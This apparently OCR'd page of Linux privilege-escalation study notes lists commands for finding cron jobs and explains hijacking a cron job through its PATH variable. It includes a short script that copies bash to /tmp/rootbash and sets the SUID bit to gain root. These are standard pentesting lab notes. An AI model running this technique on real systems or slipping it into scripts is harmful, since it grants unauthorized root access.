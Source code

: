 #### Cronjobs location
- crontab -l
- ls -alh /var/spool/cron
- ls -alh /var/spool/crontabs
- ls -al /etc/ | grep cron
- ls -al /etc/cron*
- ls -alh -R /etc/cron*

#### PATH Environment Variable
```
crontab *PATH* env variable is by default set to /usr/bin:/bin
The PATH variable can be overwritten in the crontab file
If the cron job progam/script does not use an absolute path and one of the PATH directories is wrtietable by our user, we my be able to crete a program/script with the same name as the cron job
```

#### PATH Environment Variable case study
```
for PATH=/home/user
create file in /home/user
content: 
 #!/bin/bash
 cp /bin/bash /tmp/rootbash
 chmod +s /tmp/rootbash
 chmod +s file.sh
 
 wait: watch -n 1 ls -l /tmp
```

#### Wildcards

